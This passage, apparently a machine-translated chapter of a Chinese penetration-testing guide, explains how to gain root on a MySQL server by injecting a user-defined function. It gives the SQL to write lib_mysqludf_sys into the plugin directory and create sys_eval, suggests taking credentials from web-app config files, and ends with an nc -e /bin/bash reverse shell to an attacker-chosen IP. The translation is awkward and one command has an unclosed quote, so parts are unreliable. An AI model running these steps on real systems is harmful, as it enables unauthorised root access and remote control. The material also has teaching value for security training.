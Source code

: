MySQL 有一个名为**自定义函数**（**自定义函数**的特性）；让我们看看一种通过 UDF 注射获得根的方法。现在我们有两个选择：要么下载代码并在受损系统上编译，要么从[下载预编译代码 https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so) 。

![](img/9d3ff962-4dc2-4858-b2a6-1caa42393401.png)

下载后，我们登录数据库。通常，人们会将默认的根密码留空；或者，我们可以从服务器上运行的 web 应用程序的配置文件中获取一个。

现在，我们创建一个表，并使用以下命令将文件插入表中：

```
create table <table name> (hello blob);
insert into <table name> values (load_file('/path/to/mysql.so'));
select * from <table name> into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
```

![](img/1b701a67-b90d-4d76-bc93-cb5affcf3b9a.png)

对于 Windows 系统，命令相同；只有 MySQL 的路径是不同的。

接下来，我们创建一个`sys_eval`函数，它允许我们以 root 用户的身份运行系统命令。对于 Windows，我们运行以下命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

对于 Linux，我们运行以下命令：

```
CREATE FUNCTION sys_eval RETURNS integer SONAME 'mysqludf.so;
```

现在我们可以用`sys_eval`做我们想要的任何事情；例如，要进行反向连接，我们可以使用以下方法：

```
select sys_eval('nc –v <our IP our Port> -e /bin/bash');
```

![](img/61944af5-d653-46a7-9f81-e8248a267d63.png)

这将为我们提供一个作为系统根的反向 shell：

![](img/f4775e23-2507-4246-846b-476e26bb1e4b.png)
